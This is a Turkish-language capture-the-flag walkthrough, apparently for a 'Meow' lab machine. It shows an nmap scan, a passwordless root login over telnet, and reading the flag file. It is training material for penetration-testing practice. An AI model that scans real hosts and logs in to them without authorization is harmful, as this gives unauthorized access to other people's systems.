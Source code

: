---
---

# Meow

!!! info "Target IP Address"

    10.129.146.175

Hedef makine için Nmap taraması gerçekleştir:

```bash
nmap 10.129.146.175
```

```text title="Output" hl_lines="6"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-10 19:17 +03
Nmap scan report for 10.129.146.175
Host is up (0.16s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
23/tcp open  telnet

Nmap done: 1 IP address (1 host up) scanned in 14.22 seconds
```

Telnet ile hedefe bağlan ve ardından `root` kullanıcısı olarak giriş yap (telnet bağlantısında `root` kullanıcısı için parola istenmez):

```bash
telnet 10.129.146.175
```

```text title="Output"
Trying 10.129.146.175...
Connected to 10.129.146.175.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 10 Jan 2024 04:18:32 PM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             135
  Users logged in:       0
  IPv4 address for eth0: 10.129.146.175
  IPv6 address for eth0: dead:beef::250:56ff:feb0:e22b

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~#
```

Aşağıdaki komut ile bayrağı ele geçir:

```bash
cat flag.txt
```
